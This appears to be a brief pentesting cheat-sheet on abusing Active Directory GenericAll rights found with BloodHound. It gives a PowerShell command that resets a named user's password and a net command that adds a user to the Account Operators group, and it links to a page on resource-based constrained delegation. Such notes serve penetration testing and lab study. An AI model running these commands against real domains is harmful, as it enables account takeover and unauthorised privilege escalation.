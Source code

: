![Untitled](Bloodhound%20Privesc%20dd6fade960264426a07c9c342c846f05/Untitled%201.png)

# GenericAll/GenericWrite

### Generic All to a user

This priviledge allows you to abuse ACLs to change the password of a user account. 

```nasm
Set-AdAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123!' -force)
```

### GenericAll to a group

Add a new user to the group

```bash
net group "Account Operators" <my_user> /add /domain
```

### GenericAll to a Computer

### Resource-Based Constrained delegation

This allows for resource-based constrained delegation. Add a new user to the computer.

[Resource-based Constrained Delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)
